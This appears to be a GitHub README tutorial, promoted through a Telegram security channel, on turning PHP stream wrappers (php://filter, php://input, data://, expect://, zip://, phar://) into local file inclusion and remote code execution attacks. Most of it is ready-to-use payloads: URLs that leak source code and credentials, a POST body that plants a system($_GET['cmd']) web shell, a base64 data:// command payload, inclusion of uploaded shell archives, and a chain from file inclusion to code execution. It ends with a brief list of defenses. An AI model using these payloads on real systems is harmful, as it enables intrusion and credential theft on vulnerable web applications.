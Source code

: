 # 🔥 Mastering PHP Filters & Wrappers for LFI to RCE

PHP is one of the most widely used languages in web applications. Understanding its internal features like stream wrappers can help attackers go far beyond simple file inclusion vulnerabilities.

This guide covers PHP wrappers in depth and demonstrates how to weaponize them for LFI exploitation and potential RCE in real-world applications.

---

## 🔍 Why PHP Wrappers Matter

PHP provides several built-in stream wrappers that abstract file and data input/output. While useful for developers, these can be abused in vulnerable apps:

| Wrapper       | Purpose                                      |
| ------------- | -------------------------------------------- |
| php\://filter | Filters applied to I/O streams               |
| php\://input  | Read raw POST input                          |
| data://       | Include inline data                          |
| expect://     | Execute system commands (if enabled)         |
| zip\://       | Access compressed ZIP archive files          |
| phar://       | Deserialize PHAR metadata (object injection) |

---

## 🔐 `php://filter` for Source Disclosure

Allows reading raw PHP source by bypassing execution. Example:

```
php://filter/read=convert.base64-encode/resource=config
```

URL:

```
http://<IP>/index.php?file=php://filter/read=convert.base64-encode/resource=config
```

Then decode:

```bash
echo 'PD9waHAK...' | base64 -d
```

---

## 🧰 Other PHP Wrapper Techniques

### 1. `php://input`

Reads raw POST data. Can be included if the app does `include('php://input')`:

```php
<?php include('php://input'); ?>
```

Payload:

```bash
POST /index.php
<?php system($_GET['cmd']); ?>
```

Access shell:

```
/index.php?cmd=whoami
```

### 2. `expect://`

Runs shell commands directly (rare, depends on configuration).

```php
include('expect://ls');
```

### 3. `data://`

Inline payloads using base64.

```php
include('data://text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==');
```

### 4. `zip://`

Treats ZIP files as virtual FS. Useful with file upload + LFI chain.

```php
include('zip://uploads/shell.zip#shell.php');
```

### 5. `phar://`

Leads to deserialization vulnerabilities. Requires object injection.

```php
include('phar://uploads/malicious.phar');
```

---

## 🗂️ Fuzzing PHP Pages

Use tools like `ffuf` or `gobuster` to discover includable files:

```bash
ffuf -w /path/to/wordlist.txt -u http://<IP>/FUZZ.php
```

Monitor for:

* `200 OK` (exists and renders)
* `403 Forbidden` (restricted, but can be included)
* `302 Found` (redirects, still exploitable via LFI)

---

## 🔐 Reading & Decoding Files

Once the LFI is confirmed, use:

```
php://filter/read=convert.base64-encode/resource=filename
```

Then decode to view sensitive data like credentials, tokens, API keys:

```bash
echo '...' | base64 -d
```

---

## 💣 From LFI to RCE — Chaining Attack Vectors

1. LFI with php\://filter → Read source
2. Find file upload functionality
3. Upload malicious PHAR archive
4. Use `phar://` to deserialize and trigger RCE

---

## 🧱 Defense Measures

* Disable `allow_url_include` & `allow_url_fopen`
* Never use user input directly in `include()`, `require()`
* Apply strict whitelisting
* Validate uploaded files
* Use hardened `php.ini` configs

---

## 📌 Real Bug Bounty Value

Exploiting PHP wrappers has led to real-world bounties through:

* Source code leaks
* SSRF + LFI chains
* RCE via PHAR + file uploads
* Hidden endpoint discovery

---

## 📢 Follow for More

This guide is maintained by **[@cybersecplayground](https://t.me/cybersecplayground)** — your daily source for advanced:

* 🔍 Recon & Exploitation
* 🧪 Web Security Payloads
* 🐞 Bug Bounty Techniques
* 💥 Real Attack Chains

Star ⭐ the repo and join us on Telegram for more content.

---

\#bugbounty #php #websecurity #lfi #rce #phpwrappers #infosec #cybersecurity
